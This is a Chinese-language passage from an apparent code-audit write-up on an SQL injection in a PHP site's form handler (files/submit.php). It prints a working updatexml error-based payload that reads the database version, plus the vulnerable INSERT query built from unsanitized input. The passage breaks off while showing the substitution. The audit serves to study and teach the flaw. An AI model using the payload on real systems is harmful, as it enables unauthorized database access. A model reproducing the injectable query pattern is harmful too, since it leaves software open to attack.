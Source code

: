 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676593-2964dfc9-a086-44eb-9f33-a4805628671f.png)

```plain
那就意味着在这个文件提交的表单，会在files/submit.php文件中处理。
构造payload提交表单：'or updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) or '
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676496-9d74646d-c0a7-4c41-8e54-ab96c4894160.png)

```plain
为什么会造成这种注入？

SQL语句执行代码：
$query = "INSERT INTO interaction (
type,
xs,
cid,
name,
mail,
url,
touxiang,
shebei,
ip,
content,
tz,
date
) VALUES (
'$type',
'$xs',
'$cid',
'$name',
'$mail',
'$url',
'$touxiang',
'$shebei',
'$ip',
'$content',
'$tz',
now()
)";
@mysql_query($query) or die('新增错误：'.mysql_error());

提交的payload：'or updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) or '
即：name='or updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) or '

代入SQL语句中：
$query = "INSERT INTO interaction (
type,
xs,
cid,
name,
mail,
url,
touxiang,
shebei,
ip,
content,
tz,
date
) VALUES (
'$type',
'$xs',
'$cid',
''or updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) or '',
```